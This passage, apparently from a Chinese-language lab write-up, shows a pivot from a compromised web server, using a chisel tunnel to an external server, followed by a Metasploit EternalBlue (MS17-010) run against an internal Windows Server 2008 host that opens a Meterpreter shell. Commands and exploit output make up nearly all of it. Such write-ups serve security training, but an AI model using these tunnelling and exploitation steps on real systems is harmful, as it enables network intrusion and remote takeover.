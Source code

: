:::warning

怀疑内部靶机不具有出网条件，需要提前建立端口转发

:::

```bash title="入口点 172.22.15.26"
(remote) www-data@ubuntu-web:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 8888:8888 &
[2] 3483
2024/07/26 15:10:45 client: Connecting to ws://139.*.*.*:1337
2024/07/26 15:10:45 client: tun: proxy#8888=>8888: Listening
2024/07/26 15:10:45 client: Connected (Latency 44.294711ms)
```

开始攻击

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

[-] Handler failed to bind to 172.22.15.26:8888:-  -
[*] Started reverse TCP handler on 0.0.0.0:8888
[*] 172.22.15.24:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 172.22.15.24:445      - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 172.22.15.24:445      - Scanned 1 of 1 hosts (100% complete)
[+] 172.22.15.24:445 - The target is vulnerable.
......
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 22 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 1 opened (127.0.0.1:8888 -> 127.0.0.1:49112) at 2024-07-26 15:15:08 +0800
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : XR-WIN08
OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```
